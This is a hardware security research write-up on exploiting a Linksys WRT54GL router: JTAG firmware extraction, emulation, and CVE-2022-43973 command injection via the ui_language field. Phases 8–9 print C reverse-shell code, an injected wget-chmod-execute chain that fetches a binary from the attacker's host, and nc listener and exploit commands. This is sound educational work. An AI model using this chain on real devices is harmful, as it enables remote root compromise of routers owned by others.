










# From Solder to Shell: Full Hardware Exploitation of the Linksys WRT54GL Router (CVE-2022-43973)

*A 10-phase embedded security research journey — from JTAG pin discovery to remote code execution on a MIPS-based consumer router.*

| | |
|---|---|
| **Author** | Umberto Della Monica |
| **Role** | MSc Cybersecurity Student — Embedded Security Researcher |
| **Date** | May 2026 |
| **Repository** | [Linksys-WRT54GL-Exploitation](https://github.com/UmbertoDellaMonica/Linksys-WRT54GL-Exploitation) |

---

> **Disclaimer:** This research was conducted **for educational and research purposes only** on hardware I personally own. No unauthorized systems were accessed. All techniques described here should only be reproduced on devices you own or have explicit written authorization to test. The author assumes no liability for any misuse of the information presented. Always comply with applicable laws, regulations, and responsible disclosure practices.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Target Device Overview](#target-device-overview)
- [Phase 1–2: Hardware Reconnaissance and Pin Discovery](#phase-12-hardware-reconnaissance-and-pin-discovery)
- [Phase 3–4: JTAG Debugging and Firmware Extraction](#phase-34-jtag-debugging-and-firmware-extraction)
- [Phase 5–6: Firmware Analysis and Emulation](#phase-56-firmware-analysis-and-emulation)
- [Phase 7: Vulnerability Research — CVE-2022-43973](#phase-7-vulnerability-research--cve-2022-43973)
- [Phase 8: Payload Development — MIPS Reverse Shell](#phase-8-payload-development--mips-reverse-shell)
- [Phase 9: Exploit Delivery and Root Shell](#phase-9-exploit-delivery-and-root-shell)
- [Phase 10: Network and Session Analysis](#phase-10-network-and-session-analysis)
- [Tools and Technologies](#tools-and-technologies)
- [Key Takeaways](#key-takeaways)
- [References](#references)
- [Detailed Documentation](#detailed-documentation)
- [License](#license)

---

## Executive Summary

- **Target:** Linksys WRT54GL v1.1 — a widely deployed consumer router based on the Broadcom BCM5352 chipset (MIPS 32-bit architecture)
- **Vulnerability:** [CVE-2022-43973](https://nvd.nist.gov/vuln/detail/CVE-2022-43973) — Remote Code Execution via command injection in the HTTP management interface
- **Scope:** Complete hardware-to-software exploitation chain spanning 10 phases, from physical JTAG access to remote root shell
- **Outcome:** Full remote root shell obtained via a custom MIPS reverse shell payload
- **Tools:** JTAGulator, Attify Badge, OpenOCD, Ghidra, binwalk, FirmAE, Docker with Broadcom MIPS cross-compilation toolchain

<p align="center">
  
</p>

---

## Target Device Overview

The **Linksys WRT54GL** is one of the most iconic consumer routers ever produced. Its open-source firmware support made it a favorite among enthusiasts and researchers alike. Despite its age, it remains in active use worldwide, making it a relevant target for embedded security research.

| Specification | Value |
|---|---|
| **Chipset** | Broadcom BCM5352 |
| **CPU Clock** | 200 MHz |
| **Architecture** | MIPS 32-bit (Little Endian) |
| **Flash Memory** | 4 MB NOR (memory-mapped at `0xbfc00000`) |
| **RAM** | 16 MB |
| **Wireless** | IEEE 802.11b/g, 54 Mbps |
| **Network** | 4x LAN + 1x WAN, NAT firewall with SPI |
| **OS** | Linux-based (BusyBox) |
| **Bootloader** | CFE (Common Firmware Environment) |

<p align="center">
  
</p>

---

## Phase 1–2: Hardware Reconnaissance and Pin Discovery

The first step in any hardware security assessment is physical inspection. After opening the device enclosure, I identified two debug interfaces on the PCB:

- A **12-pin JTAG header** (unpopulated) for hardware-level debugging
- A **10-pin serial (UART) port** operating at 3.3V TTL levels

Since the JTAG header was unpopulated, I soldered a temporary pin header to access the debug interface. Using a **multimeter**, I identified ground and Vcc lines and confirmed that the target operates at **3.3V logic levels** — critical to avoid damaging the chipset.

### JTAG Pin Discovery with JTAGulator

To map the JTAG signals, I used a [**JTAGulator**](https://github.com/grandideastudio/jtagulator) by Grand Idea Studio — a hardware tool designed to automatically identify debug interfaces by probing all possible pin combinations.

The JTAGulator successfully identified the following JTAG pinout:

```yaml
board: wrt54gl_v1.1
device: Linksys WRT54GL v1.1
pins:
  TCK: PA3
  TMS: PA4
  TDI: PA1
  TDO: PA2
  TRST: NC
  SRST: PB0
notes: "Header JP3 — verified 3.3V logic."
```

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

---

## Phase 3–4: JTAG Debugging and Firmware Extraction

With the JTAG pins identified, I connected an [**Attify Badge**](https://docs.attify.com/) — an open-source hardware security assessment tool (GNU GPL v3.0) featuring an FTDI FT2232H chip — to the router's JTAG header.

I launched [**OpenOCD**](https://openocd.org/) (Open On-Chip Debugger) with a custom configuration tailored for the BCM5352 target, since the official configurations were incompatible with this specific hardware revision.

### Flash Memory Layout

The custom OpenOCD configuration defines the router's flash partition layout:

| Partition | Description | Start Address | Size |
|---|---|---|---|
| **CFE** | Bootloader | `0xbfc00000` | 256 KB |
| **Firmware** | Kernel + Root FS | `0xbfc40000` | ~3.7 MB |
| **NVRAM** | Configuration | `0xbfff0000` | 64 KB |

### Firmware Dump

After halting the CPU, I performed a full 4 MB dump of the memory-mapped NOR flash:

```bash
> target halt
> dump_image ./dumps/wrt54gl.bin 0xbfc00000 0x00400000
```

<p align="center">
  
</p>

<p align="center">
  
</p>

---

## Phase 5–6: Firmware Analysis and Emulation

### Static Analysis with binwalk

Using [**binwalk**](https://github.com/ReFirmLabs/binwalk), I analyzed the firmware dump to identify embedded filesystems, compressed segments, and the kernel image:

```bash
binwalk ./dumps/wrt54gl.bin
binwalk -E ./dumps/wrt54gl.bin    # entropy analysis
sha256sum ./dumps/wrt54gl.bin     # integrity verification
```

The analysis revealed a **SquashFS** root filesystem containing a standard BusyBox-based Linux environment. I extracted it using `binwalk -e` and `unsquashfs` for deeper inspection.

### Firmware Emulation with FirmAE

To create a safe testing environment, I set up firmware emulation using [**FirmAE**](https://github.com/pr0v3rbs/FirmAE) — an automated firmware emulation framework that supports MIPS architectures. This allowed me to reproduce the router's services (HTTP, telnet) in a virtual environment and test exploits without risk to the physical device.

<p align="center">
  
</p>

<p align="center">
  
</p>

---

## Phase 7: Vulnerability Research — CVE-2022-43973

Using [**Ghidra**](https://ghidra-sre.org/) (NSA's reverse engineering framework) with the MIPS decompiler plugin, I performed static analysis on the extracted firmware binaries to confirm the presence of **CVE-2022-43973**.

### Vulnerability Details

| Field | Value |
|---|---|
| **CVE ID** | [CVE-2022-43973](https://nvd.nist.gov/vuln/detail/CVE-2022-43973) |
| **Type** | Remote Code Execution (RCE) |
| **Attack Vector** | Authenticated HTTP request |
| **Root Cause** | Command injection via unsanitized `ui_language` parameter |
| **Endpoint** | `POST /apply.cgi` |
| **Trigger** | `POST /upgrade.cgi` (firmware upgrade) |
| **Impact** | Full root-level command execution |

The vulnerability exists in the router's CGI request handler. The `ui_language` form field in the `/apply.cgi` endpoint accepts arbitrary input without sanitization. By injecting shell commands wrapped in `;cmd;` syntax, an attacker can stage commands that are subsequently executed when a firmware upgrade is triggered via `/upgrade.cgi`.

**Affected firmware versions:**
- **v4.30.18** (latest) — requires session-based authentication
- **v4.30.16** (older) — uses HTTP basic authentication only

<p align="center">
  
</p>

---

## Phase 8: Payload Development — MIPS Reverse Shell

I developed a custom reverse shell in C, purpose-built for the router's MIPS architecture. The payload establishes a TCP connection back to the attacker, redirects all standard file descriptors to the socket, and spawns an interactive shell:

```c
sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr(argv[1]);

connect(sockt, (struct sockaddr *)&revsockaddr, sizeof(revsockaddr));

dup2(sockt, 0);   // redirect stdin
dup2(sockt, 1);   // redirect stdout
dup2(sockt, 2);   // redirect stderr

execve("/bin/sh", sh_argv, NULL);
```

### Cross-Compilation with Docker

To compile the payload for the target architecture, I built a reproducible Docker environment containing the **Broadcom MIPS cross-compilation toolchain** (`hndtools-mipsel-linux-3.2.3`), sourced from the official Linksys GPL release (`WRT54GL-ETSI_v4.30.18.006`):

```bash
docker build -t wrt54gl-toolchain:latest -f Dockerfile .
docker run --rm -it -v "$(pwd)":/work --workdir /work wrt54gl-toolchain:latest

# Inside container:
mipsel-linux-gcc -static -O2 -o revshell_mips revshell.c
```

The resulting binary is statically linked for portability — no shared library dependencies on the target.

<p align="center">
  
</p>

---

## Phase 9: Exploit Delivery and Root Shell

I developed a Python exploit framework that automates the entire attack chain by leveraging CVE-2022-43973. The exploit executes a 4-step sequence, each injected as a command via the `ui_language` parameter:

### Attack Sequence

1. **Upload payload** — Inject a `wget` command to download the MIPS reverse shell binary from the attacker's HTTP server to `/tmp/X` on the router
2. **Set permissions** — Inject `chmod +x /tmp/X` to make the binary executable
3. **Execute payload** — Inject `/tmp/X <attacker_ip> <port>` to launch the reverse shell
4. **Clean up** — Reset `ui_language` to its default value (`en`)

Each command is wrapped as `;cmd;` in the `ui_language` field and sent via `POST /apply.cgi`. A subsequent `POST /upgrade.cgi` triggers execution.

### Execution

On the attacker's machine, three terminals are required:

```bash
# Terminal 1: Serve the reverse shell binary
python -m http.server 8000

# Terminal 2: Listen for the incoming reverse shell
nc -lvnp 4141

# Terminal 3: Launch the exploit
python exploit.py --host 192.168.1.1 --username admin --password admin \
  --attacker-host 192.168.1.2 --attacker-http-port 8000 \
  --attacker-handler-port 4141
```

### Result: Root Shell

The reverse shell connects back to the attacker's Netcat listener, providing an interactive **root shell** on the router.

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

---

## Phase 10: Network and Session Analysis

To validate the full exploit chain, I captured network traffic with **Wireshark** during the attack. The analysis confirmed:

- Correct HTTP POST injection sequence to `/apply.cgi` and `/upgrade.cgi`
- Successful payload download via `wget` from the attacker's HTTP server
- Reverse shell TCP connection established on port 4141
- Session cookie and authentication flow integrity

---

## Tools and Technologies

| Category | Tool | Purpose | Reference |
|---|---|---|---|
| Hardware | **Attify Badge** | JTAG/UART interface adapter | [docs.attify.com](https://docs.attify.com/) (GNU GPL v3.0) |
| Hardware | **JTAGulator** | Automated debug pin discovery | [Grand Idea Studio](https://github.com/grandideastudio/jtagulator) |
| Software | **OpenOCD** | JTAG debugging and flash access | [openocd.org](https://openocd.org/) |
| Software | **Ghidra** | Static analysis and decompilation | [ghidra-sre.org](https://ghidra-sre.org/) (NSA) |
| Software | **binwalk** | Firmware analysis and extraction | [ReFirmLabs](https://github.com/ReFirmLabs/binwalk) |
| Software | **FirmAE** | Firmware emulation (MIPS) | [GitHub](https://github.com/pr0v3rbs/FirmAE) |
| Software | **Firmadyne** | Firmware dynamic analysis | [GitHub](https://github.com/firmadyne/firmadyne) |
| Software | **Docker** | Reproducible build environment | [docker.com](https://www.docker.com/) |
| Toolchain | **hndtools-mipsel-linux** | Broadcom MIPS cross-compiler | Linksys GPL release |
| Software | **Python 3** | Exploit automation framework | [python.org](https://www.python.org/) |
| Software | **Wireshark** | Network traffic analysis | [wireshark.org](https://www.wireshark.org/) |
| Standard | **IEEE 1149.1** | JTAG boundary-scan standard | IEEE |

---

## Key Takeaways

1. **Physical access is a powerful attack vector.** JTAG provides root-level hardware access that bypasses all software security mechanisms. Organizations deploying embedded devices should consider physical security controls and disabling debug interfaces in production firmware.

2. **Firmware extraction is foundational.** Dumping and analyzing firmware reveals the full software stack — including hardcoded credentials, configuration data, and vulnerable code paths that are invisible from a network-only perspective.

3. **Emulation enables safe, repeatable research.** Tools like FirmAE allow researchers to reproduce device behavior in a virtual environment, enabling iterative testing without risking physical hardware or triggering unintended consequences.

4. **Simple input validation failures have critical impact.** CVE-2022-43973 demonstrates how a single unsanitized form field in a web interface can lead to full device compromise with root-level access. Defense in depth — input validation, least privilege, and secure coding practices — remains essential.

5. **Reproducible toolchains matter.** Docker-based cross-compilation environments ensure that payloads and tools can be rebuilt reliably, making research results verifiable and shareable.

6. **Legacy devices represent ongoing risk.** The WRT54GL remains in active use globally. End-of-life devices that no longer receive security updates pose a persistent threat to network security.

---

## References

### Vulnerability
- **CVE-2022-43973** — NVD: [https://nvd.nist.gov/vuln/detail/CVE-2022-43973](https://nvd.nist.gov/vuln/detail/CVE-2022-43973)
- **CVE-2022-43973** — MITRE: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43973](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43973)

### Hardware Tools
- **Attify Badge** — [https://docs.attify.com/](https://docs.attify.com/) (GNU GPL v3.0)
- **JTAGulator** — Grand Idea Studio: [https://github.com/grandideastudio/jtagulator](https://github.com/grandideastudio/jtagulator)
- **JTAG Standard** — IEEE 1149.1 (Standard Test Access Port and Boundary-Scan Architecture)

### Software Tools
- **OpenOCD** — [https://openocd.org/](https://openocd.org/)
- **Ghidra** — [https://ghidra-sre.org/](https://ghidra-sre.org/)
- **FirmAE** — [https://github.com/pr0v3rbs/FirmAE](https://github.com/pr0v3rbs/FirmAE)
- **Firmadyne** — [https://github.com/firmadyne/firmadyne](https://github.com/firmadyne/firmadyne)
- **binwalk** — [https://github.com/ReFirmLabs/binwalk](https://github.com/ReFirmLabs/binwalk)

### Vendor
- **Linksys WRT54GL Firmware** — [https://www.linksys.com/us/support-article?articleNum=148648](https://www.linksys.com/us/support-article?articleNum=148648)
- **Linksys GPL Toolchain** — [https://www.linksys.com/us/support-article?articleNum=114663](https://www.linksys.com/us/support-article?articleNum=114663)

---

## Detailed Documentation

For in-depth technical details, refer to the following documents:

| Document | Description |
|---|---|
| [Hardware Inventory](docs/hardware.md) | Device specifications, pinouts, datasheets, and hardware tools |
| [Software Stack](docs/software.md) | Docker setup, OpenOCD configuration, toolchain details, and troubleshooting |
| [Exploitation Procedure](docs/procedure.md) | Step-by-step 10-phase workflow with commands and screenshots |

---

## License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

If reproducing Attify or JTAGulator schematics, follow their respective licenses (GNU GPL v3.0 for Attify components).

---

<p align="center">
  <b>Umberto Della Monica</b><br/>
  <a href="https://www.linkedin.com/in/umbertodellamonica">LinkedIn</a>
</p>

<p align="center">
  <code>#EmbeddedSecurity</code> <code>#HardwareSecurity</code> <code>#IoTSecurity</code> <code>#Pentesting</code> <code>#FirmwareAnalysis</code> <code>#JTAG</code> <code>#CVE</code> <code>#ReverseEngineering</code> <code>#CyberSecurity</code> <code>#InfoSec</code>
</p>
